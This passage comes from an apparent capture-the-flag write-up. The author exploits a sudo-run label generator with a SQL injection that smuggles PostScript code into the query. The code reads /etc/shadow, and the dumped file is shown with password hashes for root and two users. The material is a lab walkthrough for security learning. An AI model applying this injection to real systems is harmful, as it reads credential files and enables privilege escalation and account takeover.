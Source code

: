     /outfile (output.txt) (w) file def
    outfile exch  writestring
    outfile closefile 
    

I’ll need to increase the number on the second line, as that’s the number of
bytes to be read, and I want more than 100. I’ll run this via the SQL
injection:

    
    
    neil@bookworm:~$ sudo genlabel '99999 UNION SELECT "0xdf)
    > 
    > /inputfile (/etc/shadow) (r) file def
    > inputfile 10000 string readstring
    > pop
    > inputfile closefile
    > 
    > /outfile (output.txt) (w) file def
    > outfile exch  writestring
    > outfile closefile 
    > 
    > (test", 2,3,4,5,6,7'
    Fetching order...
    Generating PostScript file...
    Generating PDF (until the printer gets fixed...)
    Documents available in /tmp/tmpqsikna5vprintgen
    neil@bookworm:~$ cat output.txt 
    root:$6$X.PJezLobVQOLuGu$nDnaPx.G5/nXr9I7WI0h8Sw0vjeFcOChirHr1s0zNyaid7X5U26fB5MXOIQB/oR4fb7xiaN/.bXdfAkGwtXL6.:19387:0:99999:7:::
    daemon:*:18375:0:99999:7:::
    bin:*:18375:0:99999:7:::
    sys:*:18375:0:99999:7:::
    sync:*:18375:0:99999:7:::
    games:*:18375:0:99999:7:::
    man:*:18375:0:99999:7:::
    lp:*:18375:0:99999:7:::
    mail:*:18375:0:99999:7:::
    news:*:18375:0:99999:7:::
    uucp:*:18375:0:99999:7:::
    proxy:*:18375:0:99999:7:::
    www-data:*:18375:0:99999:7:::
    backup:*:18375:0:99999:7:::
    list:*:18375:0:99999:7:::
    irc:*:18375:0:99999:7:::
    gnats:*:18375:0:99999:7:::
    nobody:*:18375:0:99999:7:::
    systemd-network:*:18375:0:99999:7:::
    systemd-resolve:*:18375:0:99999:7:::
    systemd-timesync:*:18375:0:99999:7:::
    messagebus:*:18375:0:99999:7:::
    syslog:*:18375:0:99999:7:::
    _apt:*:18375:0:99999:7:::
    tss:*:18375:0:99999:7:::
    uuidd:*:18375:0:99999:7:::
    tcpdump:*:18375:0:99999:7:::
    landscape:*:18375:0:99999:7:::
    pollinate:*:18375:0:99999:7:::
    usbmux:*:19386:0:99999:7:::
    sshd:*:19386:0:99999:7:::
    systemd-coredump:!!:19386::::::
    lxd:!:19386::::::
    frank:$6$iQwYpaCFHgzFXVbi$gAKLi4oKtDPb4uaCGW3RkabZ8DyAnQfxbaqhoiAeAsGmP776eOyQt6bvYPPUJ4PAe2PJPanzm3sH5KSiqzrlF.:19387:0:99999:7:::
    neil:$6$rN642RtN9dzlaylh$/7DIfm9515mWvCPWM/wL/ANkJJPtKkUNURqcmu/VseEhLch1pQgX7c3l3ij2vA3MmM3PZV5WOrLM7u3gy2V3W1:19387:0:99999:7:::